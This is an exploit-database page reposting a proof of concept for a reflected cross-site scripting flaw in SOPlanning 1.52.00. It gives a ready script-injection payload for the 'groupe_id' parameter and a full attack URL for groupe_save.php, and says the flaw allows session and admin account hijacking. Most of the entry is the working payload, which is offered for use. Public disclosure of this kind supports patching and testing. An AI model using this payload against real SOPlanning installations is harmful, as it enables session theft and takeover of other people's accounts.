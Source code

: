 ```yaml
---
title: SOPlanning 1.52.00 Cross Site Scripting exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:178434&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2024-05-04
fetch_date: 2025-10-06T17:15:34.645486
---
```


# SOPlanning 1.52.00 Cross Site Scripting exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for SOPlanning 1.52.00 Cross Site Scripting

2024-05-03 | CVSS 7.4

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:178434
Exploit Title: SOPlanning v1.52.00 'groupe_save.php' XSS (Reflected XSS)
Application: SOPlanning
Version: 1.52.00
Date: 4/22/24
Exploit Author: Joseph McPeters (Liquidsky)
Vendor Homepage: https://www.soplanning.org/en/
Software Link: https://sourceforge.net/projects/soplanning/
Tested on: Linux
CVE: Not yet assigned

Description: SOPlanning v1.52.00 is vulnerable to XSS via the 'groupe_id' parameters a remote unautheticated attacker can hijack the admin account or other users. The remote attacker can hijack a users session or credentials and perform a takeover of the entire platform.

Example Payload:
"><script>alert('LiQUiDSKY')</script><!--

Reflected XSS: /soplanning/www/process/groupe_save.php?saved=1&groupe_id="><script>alert('LiQUiDSKY')</script><!--&nom=Project+New

Analysis: The landing page takes into consideration the user input then redirects to a page where the XSS is shown the payload included in the exploit, escapes the variable where it is held, and comments out the rest to perform a valid reflected XSS attack against any authenticated user the payload was sent to.
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)